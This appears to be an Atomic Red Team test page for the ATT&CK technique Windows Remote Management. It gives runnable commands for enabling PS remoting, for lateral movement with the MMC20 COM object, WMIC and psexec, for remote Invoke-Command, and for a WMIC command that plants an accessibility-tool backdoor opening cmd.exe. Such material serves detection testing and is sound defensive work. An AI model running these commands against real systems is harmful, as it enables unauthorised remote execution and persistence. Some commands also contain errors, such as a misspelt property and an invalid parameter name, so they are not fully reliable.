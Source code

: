 # T1028 - Windows Remote Management
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1028)
<blockquote>Windows Remote Management (WinRM) is the name of both a Windows service and a protocol that allows a user to interact with a remote system (e.g., run an executable, modify the Registry, modify services). (Citation: Microsoft WinRM) It may be called with the <code>winrm</code> command or by any number of programs such as PowerShell. (Citation: Jacobsen 2014)

Detection: Monitor use of WinRM within an environment by tracking service execution. If it is not normally used or is disabled, then this may be an indicator of suspicious behavior. Monitor processes created and actions taken by the WinRM process or a WinRM invoked script to correlate it with other related events.

Platforms: Windows

Data Sources: File monitoring, Authentication logs, Netflow/Enclave netflow, Process command-line parameters, Process monitoring

Permissions Required: User, Administrator

System Requirements: WinRM listener turned on and configured on remote system

Remote Support: Yes</blockquote>

## Atomic Tests

- [Atomic Test #1 - Enable Windows Remote Management](#atomic-test-1---enable-windows-remote-management)

- [Atomic Test #2 - PowerShell Lateral Movement](#atomic-test-2---powershell-lateral-movement)

- [Atomic Test #3 - WMIC Process Call Create](#atomic-test-3---wmic-process-call-create)

- [Atomic Test #4 - Psexec](#atomic-test-4---psexec)

- [Atomic Test #5 - Invoke-Command](#atomic-test-5---invoke-command)


<br/>

## Atomic Test #1 - Enable Windows Remote Management
Powershell Enable WinRM

**Supported Platforms:** Windows


#### Run it with `powershell`!
```
powershell Enable-PSRemoting -Force
```
<br/>
<br/>

## Atomic Test #2 - PowerShell Lateral Movement
Powershell lateral movement using the mmc20 application com object

Reference:

https://blog.cobaltstrike.com/2017/01/24/scripting-matt-nelsons-mmc20-application-lateral-movement-technique/

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| computer_name | Name of Computer | string | computer1|

#### Run it with `command_prompt`!
```
powershell.exe [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","#{computer_name}")).Documnet.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")
```
<br/>
<br/>

## Atomic Test #3 - WMIC Process Call Create
Utilize WMIC to start remote process

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | Username | String | DOMAIN\Administrator|
| password | Password | String | P@ssw0rd1|
| computer_name | Target Computer Name | String | Target|

#### Run it with `command_prompt`!
```
wmic /user:#{user_name} /password:#{password} /node:#{computer_name} process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"
```
<br/>
<br/>

## Atomic Test #4 - Psexec
Utilize psexec to start remote process

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | Username | String | DOMAIN\Administrator|
| password | Password | String | P@ssw0rd1|
| computer_name | Target Computer Name | String | Target|

#### Run it with `command_prompt`!
```
psexec \\host -u domain\user -p password -s cmd.exe
```
<br/>
<br/>

## Atomic Test #5 - Invoke-Command
Execute Invoke-command on remote host

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| host_name | Remote Windows Host Name | String | Test|
| remote_command | Command to execute on remote Host | String | ipconfig|

#### Run it with `powershell`!
```
invoke-command -computer_name #{host_name} -scriptblock {#{remote_command}}
```
<br/>
